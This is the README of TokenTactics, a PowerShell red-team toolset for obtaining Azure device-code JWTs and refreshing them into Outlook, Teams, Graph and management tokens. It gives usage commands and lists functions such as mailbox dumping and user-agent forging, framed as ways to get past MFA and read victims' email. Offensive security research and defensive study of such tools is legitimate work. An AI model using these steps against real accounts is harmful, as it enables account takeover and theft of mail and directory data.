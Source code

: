 # TokenTactics
Azure JSON Web Token ("JWT")Token Manipulation Toolset


Azure JWT's allow you to authenticate to certain endpoints as the user who signed in with the device code. Even if they used multi-factor authentication. Once you have a user's JWT, it may be possible to access certain apps such as Outlook, SharePoint, OneDrive, MSTeams and more. 

For instance, if you have a Graph or MSGraph token, you can then connect to Azure and dump users, groups, etc. You could then, depending on conditional access policies, switch to an Azure Core Management token and run [AzureHound](https://github.com/BloodHoundAD/AzureHound). Then, switch to an Outlook token and read/send emails! 

There are some example requests to endpoints in the resources folder.

You may also use these tokens with [AAD Internals](https://o365blog.com/aadinternals/) as well.

## Installation and Usage

```Import-Module .\TokenTactics.psd1```

```Get-Help Get-Azure-Token```

```RefreshTo-SubstrateToken```

### Generate Device Code

```Get-AzureToken -Client MSGraph```
Once the user has logged in, you'll be presented with the JWT and it will be saved in the $response variable. To access the access token use ```$response.access_token``` from your PowerShell window to display the token. You may also display the refresh token with ```$response.refresh_token```. Hint: You'll want the refresh token to keep refreshing to new tokens!

#### DOD/Mil Device Code
```Get-AzureToken -Client DODMSGraph```

### Refresh or Switch Tokens

```RefreshTo-OutlookToken -domain myclient.org -refreshToken ey..```

```$OutlookToken.access_token```

### Connect
```Connect-AzureAD -AadAccessToken $response.access_token -AccountId user@myclient.org```

### Commands
```powershell
Get-Command -Module TokenTactics

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Function        Dump-OWAMailboxViaMSGraphApi                       0.0.1      TokenTactics
Function        Forge-UserAgent                                    0.0.1      TokenTactics
Function        Get-AzureToken                                     0.0.1      TokenTactics
Function        Get-TenantID                                       0.0.1      TokenTactics
Function        Open-OWAMailboxInBrowser                           0.0.1      TokenTactics
Function        Parse-JWTtoken                                     0.0.1      TokenTactics
Function        RefreshTo-AzureCoreManagementToken                 0.0.1      TokenTactics
Function        RefreshTo-AzureManagementToken                     0.0.1      TokenTactics
Function        RefreshTo-DODMSGraphToken                          0.0.1      TokenTactics
Function        RefreshTo-GraphToken                               0.0.1      TokenTactics
Function        RefreshTo-MAMToken                                 0.0.1      TokenTactics
Function        RefreshTo-ManageOfficeToken                        0.0.1      TokenTactics
Function        RefreshTo-MSGraphToken                             0.0.1      TokenTactics
Function        RefreshTo-MSManageToken                            0.0.1      TokenTactics
Function        RefreshTo-MSTeamsToken                             0.0.1      TokenTactics
Function        RefreshTo-OfficeAppsToken                          0.0.1      TokenTactics
Function        RefreshTo-OutlookToken                             0.0.1      TokenTactics
Function        RefreshTo-SubstrateToken                           0.0.1      TokenTactics
```

## Authors and contributors
- [@0xBoku](https://github.com/boku7) co-author and researcher.

TokenTactic's methods are highly influenced by the great research of Dr Nestori Syynimaa at https://o365blog.com/.

